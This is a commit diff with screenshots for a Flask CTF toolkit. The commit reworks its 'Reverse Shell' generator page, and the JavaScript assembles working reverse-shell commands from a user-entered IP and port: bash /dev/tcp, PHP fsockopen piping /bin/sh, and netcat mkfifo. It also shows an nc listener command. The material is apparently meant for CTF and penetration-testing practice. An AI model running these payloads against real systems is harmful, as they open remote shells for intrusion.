

Before and after one commit to Pocahontas2025/0xFlag, a Flask app: page /reverse in a window 1280 px wide. Shown: the part 233-913 px from the top of the page, without its empty margins (264-1015 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
SCRUM-69
reverse.html ok
falta verificar que esté todo bien

```diff
--- a/src/static/js/scripts.js
+++ b/src/static/js/scripts.js
@@ -128,20 +128,23 @@ document.addEventListener("DOMContentLoaded", () => {
         const rsCards = document.querySelectorAll(".shell-card");
 
         function generateShell() {
+            // Si falta IP o Puerto, mostramos mensaje de espera
             if (!rsHost.value || !rsPort.value) {
-                rsOutput.innerText = "Completa IP y Puerto...";
+                rsOutput.innerText = "Completa IP y Puerto arriba...";
                 rsListener.innerText = "nc -lvnp <PUERTO>";
                 return;
             }
 
-            let ip = rsHost.value;
-            let p = rsPort.value;
+            let ip = rsHost.value.trim();
+            let p = rsPort.value.trim();
 
+            // Lógica de URL Encode
             if (rsUrlEncode.checked) {
                 ip = encodeURIComponent(ip);
                 p = encodeURIComponent(p);
             }
 
+            // Detectar cuál está activa
             const activeCard = document.querySelector(".shell-card.active input");
             const type = activeCard ? activeCard.value : 'bash';
 
@@ -151,19 +154,23 @@ document.addEventListener("DOMContentLoaded", () => {
                     command = `bash -i >& /dev/tcp/${ip}/${p} 0>&1`;
                     break;
                 case 'php':
+                    // Payload PHP robusto para web shells
                     command = `php -r '$sock=fsockopen("${ip}",${p});exec("/bin/sh -i <&3 >&3 2>&3");'`;
                     break;
                 case 'nc':
+                    // Payload Netcat mkfifo (el más común)
                     command = `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ${ip} ${p} >/tmp/f`;
                     break;
                 default:
                     command = `bash -i >& /dev/tcp/${ip}/${p} 0>&1`;
             }
 
+            // Inyectamos texto (innerText) para que el botón de copiar genérico lo lea bien
             rsOutput.innerText = command;
-            rsListener.innerText = `nc -lvnp ${rsPort.value}`;
+            rsListener.innerText = `nc -lvnp ${rsPort.value}`; // Listener siempre usa el puerto sin encode
         }
 
+        // Eventos para las tarjetas (click visual y lógica)
         rsCards.forEach(card => {
             card.addEventListener("click", () => {
                 rsCards.forEach(c => c.classList.remove("active"));
@@ -174,10 +181,14 @@ document.addEventListener("DOMContentLoaded", () => {
             });
         });
 
+        // Eventos para los inputs
         [rsHost, rsPort, rsUrlEncode].forEach(el => {
             el.addEventListener("input", generateShell);
             el.addEventListener("change", generateShell);
         });
+
+        // --- IMPORTANTE: Ejecutar al inicio para rellenar datos si ya hay IP ---
+        generateShell();
     }
 
     // -----------------------------------------------------------------------
--- a/src/templates/reverse.html
+++ b/src/templates/reverse.html
@@ -7,24 +7,22 @@
 
   <div class="text-center text-white mb-4">
     <h1 class="fw-bolder">Reverse Shell</h1>
-    <p class="text-white-50">
-      Generación reactiva de Payloads y Listeners
-    </p>
+    <p class="text-white-50">Generación reactiva de Payloads y Listeners</p>
   </div>
 
   <div class="row justify-content-center">
     <div class="col-lg-8">
 
-      <!-- CARD PRINCIPAL -->
       <div class="card bg-secondary text-white border-0 shadow mb-4">
         <div class="card-body p-4">
-          <!-- TIPO -->
+
           <label class="fw-bold mb-2 d-block">Tipo de shell</label>
           <div class="row g-3 mb-4">
 
             <div class="col-md-4">
-              <label class="card shell-card active cursor-pointer">
-                <input type="radio" name="shell_type" value="bash" checked style="display:none;"> <div class="card-body text-center p-3">
+              <label class="card shell-card active h-100">
+                <input type="radio" name="shell_type" value="bash" checked>
+                <div class="card-body text-center p-3">
                   <div class="fw-bold"><i class="bi bi-terminal-fill"></i> Bash</div>
                   <small class="text-white-50">/bin/bash</small>
                 </div>
@@ -32,8 +30,8 @@
             </div>
 
             <div class="col-md-4">
-              <label class="card shell-card cursor-pointer">
-                <input type="radio" name="shell_type" value="php" style="display:none;">
+              <label class="card shell-card h-100">
+                <input type="radio" name="shell_type" value="php">
                 <div class="card-body text-center p-3">
                   <div class="fw-bold"><i class="bi bi-filetype-php"></i> PHP</div>
                   <small class="text-white-50">cmd / web</small>
@@ -42,8 +40,8 @@
             </div>
 
             <div class="col-md-4">
-              <label class="card shell-card cursor-pointer">
-                <input type="radio" name="shell_type" value="nc" style="display:none;">
+              <label class="card shell-card h-100">
+                <input type="radio" name="shell_type" value="nc">
                 <div class="card-body text-center p-3">
                   <div class="fw-bold"><i class="bi bi-hdd-network"></i> Netcat</div>
                   <small class="text-white-50">mkfifo</small>
@@ -53,7 +51,6 @@
 
           </div>
 
-          <!-- HOST / PORT -->
           <div class="row">
             <div class="col-md-7 mb-3">
               <label class="fw-bold">LHOST (Tu IP)</label>
@@ -61,8 +58,9 @@
                 id="lhost"
                 type="text"
                 class="form-control bg-dark text-white border-0"
-                placeholder="10.10.10.5"
-                maxlength="15">
+                placeholder="Ej: 10.10.14.5"
+                value="{{ config.attacker_ip if config and config.attacker_ip else '' }}"
+              >
             </div>
 
             <div class="col-md-5 mb-3">
@@ -72,7 +70,9 @@
                 type="number"
                 class="form-control bg-dark text-white border-0"
                 placeholder="4444"
-                value="4444"> </div>
+                value="4444"
+              >
+            </div>
           </div>
 
           <div class="form-check mt-2">
@@ -85,30 +85,31 @@
         </div>
       </div>
 
-      <!-- COMANDO -->
       <div class="terminal-output mb-4">
-          <div class="output-header border-bottom border-success pb-2 mb-2">
-              <h5 class="mb-0">&gt; Payload:</h5>
+          <div class="output-header">
+              <span class="fw-bold">&gt; Payload:</span>
               <button class="btn-copy" type="button" data-target="output">
                   <i class="bi bi-clipboard"></i> Copiar
               </button>
           </div>
-          <p id="output" class="mb-0 text-break">Completa la IP arriba...</p>
+          <div id="output" class="terminal-input text-break" style="height: auto;">
+            Esperando datos...
+          </div>
       </div>
 
-      <!-- LISTENER -->
       <div class="terminal-output">
-          <div class="output-header border-bottom border-success pb-2 mb-2">
-              <h5 class="mb-0">&gt; Listener:</h5>
+          <div class="output-header">
+              <span class="fw-bold">&gt; Listener:</span>
               <button class="btn-copy" type="button" data-target="listener">
                   <i class="bi bi-clipboard"></i> Copiar
               </button>
           </div>
-          <p id="listener" class="mb-0">nc -lvnp 4444</p>
+          <div id="listener" class="terminal-input text-break" style="height: auto;">
+            nc -lvnp 4444
+          </div>
       </div>
 
     </div>
   </div>
 </div>
-
 {% endblock %}
```
Also changed, not shown: 2 other files.
